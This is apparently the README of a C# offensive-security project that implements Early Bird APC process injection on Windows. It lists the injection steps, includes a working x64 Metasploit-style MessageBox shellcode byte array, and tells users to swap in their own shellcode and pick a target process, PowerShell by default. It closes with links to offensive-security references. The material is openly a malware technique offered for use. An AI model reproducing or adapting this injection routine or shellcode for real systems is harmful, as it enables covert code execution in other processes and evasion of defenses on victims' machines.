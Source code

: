 # EarlyBirdInjection_CSharp

Blog link: working on it

- EarlyBirdInjection, process injection technique.
- Only tested on win10/x64, works fine.
- Some simplified context around threads and APC queues:
	1. Threads execute code within processes
	2. Threads can execute code asynchronously by leveraging APC queues
	3. Each thread has a queue that stores all the APCs
	4. Application can queue an APC to a given thread (subject to privileges)
	5. **When a thread is scheduled, queued APCs get executed.**
	6. Disadvantage of this technique is that the malicious program cannot force the victim thread to execute the injected code - the thread to which an APC was queued to, needs to enter/be in an alert state (i.e SleepEx), but you may want to check out Shellcode Execution in a Local Process with QueueUserAPC and NtTestAlert
	
- Steps
	1. Find process id.
	2. Open process 
	3. Allocate memory into process memory space.
	4. Write shellcode into the process memory space.
	5. Create a thread with a suspended state.
	6. Queue an APC to the threads.
	7. ResumeThread.
	
- The shellcode below is a messagebox
```
            /*   Messagebox shellcode   */
            byte[] buf1 = new byte[323] {
            0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,
            0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
            0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,
            0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,
            0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,
            0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
            0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,0x3e,0x8b,0x48,
            0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,
            0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,
            0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
            0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
            0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x3e,
            0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,
            0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
            0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,
            0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0x1a,0x01,0x00,0x00,0x3e,0x4c,0x8d,
            0x85,0x2b,0x01,0x00,0x00,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,
            0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
            0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
            0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x48,0x65,0x6c,0x6c,0x6f,
            0x2c,0x20,0x66,0x72,0x6f,0x6d,0x20,0x4d,0x53,0x46,0x21,0x00,0x4d,0x65,0x73,
            0x73,0x61,0x67,0x65,0x42,0x6f,0x78,0x00 };
			
```

## Usage 
1. Replace the shellcode with your own.
	![avatar](https://raw.githubusercontent.com/Kara-4search/ProjectPics/main/EarlyBirdInject_shellcode.png)
2. Set the process name you want to inject
	* default name in the project is Powershell.
	![avatar](https://raw.githubusercontent.com/Kara-4search/ProjectPics/main/EarlyBirdInject_processname.png)
3. And the messagebox show up.
	![avatar](https://raw.githubusercontent.com/Kara-4search/ProjectPics/main/EarlyBirdInject_messagebox.png)
	
	
## TO-DO list
- NONE

## Update history
- NONE

## Reference link:
	1. http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtQueueApcThread.html
	2. https://idiotc4t.com/code-and-dll-process-injection/apc-and-nttestalert-code-execute
	3. https://idiotc4t.com/code-and-dll-process-injection/apc-injection
	4. https://idiotc4t.com/code-and-dll-process-injection/apc-thread-hijack
	5. https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-in-a-local-process-with-queueuserapc-and-nttestalert
	6. https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection
	7. https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection
	8. https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread
	9. http://pinvoke.net/default.aspx/kernel32/CreateRemoteThread.html
	10. https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex
	11. https://malcomvetter.medium.com/net-process-injection-1a1af00359bc
	12. https://github.com/pwndizzle/c-sharp-memory-injection/blob/master/apc-injection-new-process.cs
	13. https://introspelliam.github.io/2017/06/22/tools/关于metasploit的EXITFUNC参数的解释/
	14. http://garage4hackers.com/showthread.php?t=1820
